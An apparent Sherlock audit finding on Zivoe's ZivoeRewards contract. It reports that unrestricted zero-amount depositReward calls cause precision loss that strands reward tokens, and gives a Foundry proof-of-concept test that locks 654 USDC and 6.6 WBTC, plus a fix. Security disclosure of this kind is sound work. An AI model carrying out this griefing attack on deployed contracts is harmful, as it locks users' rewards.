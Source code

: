 Passive Rouge Peacock

medium

# ````depositReward()```` with zero amount to get reward tokens stuck in ````ZivoeRewards```` contracts

## Summary
````ZivoeRewards.depositReward()```` has no access control, attackers can call it with zero amount of ````reward```` to get some reward tokens stuck in contract. The locked amount could be significant especially when reward tokens have small decimals such as ````USDT/USDC/WBTC````.

## Vulnerability Detail
The issue arises due to precision loss on L233 and L237.
```solidity
File: zivoe-core-foundry\src\ZivoeRewards.sol
228:     function depositReward(address _rewardsToken, uint256 reward) external updateReward(address(0)) nonReentrant {
...
232:         if (block.timestamp >= rewardData[_rewardsToken].periodFinish) {
233:             rewardData[_rewardsToken].rewardRate = reward.div(rewardData[_rewardsToken].rewardsDuration);
234:         } else {
...
237:             rewardData[_rewardsToken].rewardRate = reward.add(leftover).div(rewardData[_rewardsToken].rewardsDuration);
238:         }
...
243:     }

```

The following PoC shows two cases that ````654 USDC```` and ````6.6 WBTC```` get stuck in ````ZivoeRewards(stZVE)```` contract after ````20```` calls on ````depositReward()```` with zero amount of ````reward````.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "../Utility/Utility.sol";
import "forge-std/console2.sol";

contract TestDepositRewardBug is Utility {
    address alice;
    function setUp() public {
        vm.createSelectFork("https://mainnet.gateway.tenderly.co");
        deployCore(false);

        deal(USDC, address(zvl), 1_000e6); // 1,000 USDC
        deal(WBTC, address(zvl), 10e8); // 10 wBTC
        vm.startPrank(address(zvl));
        stZVE.addReward(USDC, 365 days);
        stZVE.addReward(WBTC, 365 days);
        IERC20(USDC).approve(address(stZVE), type(uint256).max);
        stZVE.depositReward(USDC, 1_000e6);
        IERC20(WBTC).approve(address(stZVE), type(uint256).max);
        stZVE.depositReward(WBTC, 10e8);
        vm.stopPrank();


        alice = makeAddr("alice");
        deal(address(ZVE), alice, 1_000e18);
        assertEq(ZVE.balanceOf(alice), 1_000e18);

        vm.startPrank(alice);
        ZVE.approve(address(stZVE), type(uint256).max);
        stZVE.stake(1_000e18);
        vm.stopPrank();

        // alice is the only staker, and is expected to get all rewards
        assertEq(1_000e18, stZVE.totalSupply());
    }

    function testAttackOnUSDCReward() public {
        uint256 timestamp = block.timestamp;
        for (uint256 i; i < 20; ++i) {   
            vm.warp(timestamp += 12);
            // deposit nothing
            stZVE.depositReward(USDC, 0);
        }

        vm.warp(timestamp + 365 days + 1); // make sure all reward distributed
        vm.prank(alice);
        stZVE.getRewards();
        uint256 balance = IERC20(USDC).balanceOf(alice);
        assertApproxEqAbs(346e6, balance, 1e6);
        balance = IERC20(USDC).balanceOf(address(stZVE));
        assertApproxEqAbs(654e6, balance, 1e6);
        console2.log("Expected reward: 1,000 USDC, actual reward: 346 USDC, locked: 654 USDC");
    }

    function testAttackOnWBTCReward() public {
        uint256 timestamp = block.timestamp;
        for (uint256 i; i < 20; ++i) {   
            vm.warp(timestamp += 12);
            // deposit nothing
            stZVE.depositReward(WBTC, 0);
        }

        vm.warp(timestamp + 365 days + 1); // make sure all reward distributed
        vm.prank(alice);
        stZVE.getRewards();
        uint256 balance = IERC20(WBTC).balanceOf(alice);
        assertApproxEqAbs(3.4e8, balance, 0.1e8);
        balance = IERC20(WBTC).balanceOf(address(stZVE));
        assertApproxEqAbs(6.6e8, balance, 0.1e8);
        console2.log("Expected reward: 10 WBTC, actual reward: 3.4 WBTC, locked: 6.6 WBTC");
    }
}
```

The test log:
```solidity
2024-03-zivoe\zivoe-core-testing> forge test --mc TestDepositRewardBug -vv
[⠰] Compiling...
No files changed, compilation skipped

Ran 2 tests for src/TESTS_Core/Bug_DepositReward.t.sol:TestDepositRewardBug
[PASS] testAttackOnUSDCReward() (gas: 822088)
Logs:
  Expected reward: 1,000 USDC, actual reward: 346 USDC, locked: 654 USDC

[PASS] testAttackOnWBTCReward() (gas: 788716)
Logs:
  Expected reward: 10 WBTC, actual reward: 3.4 WBTC, locked: 6.6 WBTC

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 30.37s (5.20s CPU time)

Ran 1 test suite in 30.41s (30.37s CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)

```
## Impact
Fund get stuck in contract

## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeRewards.sol#L228C14-L228C27

## Tool used

Manual Review

## Recommendation
Increasing the precision of ````rewardRate```` by ````1e18````.
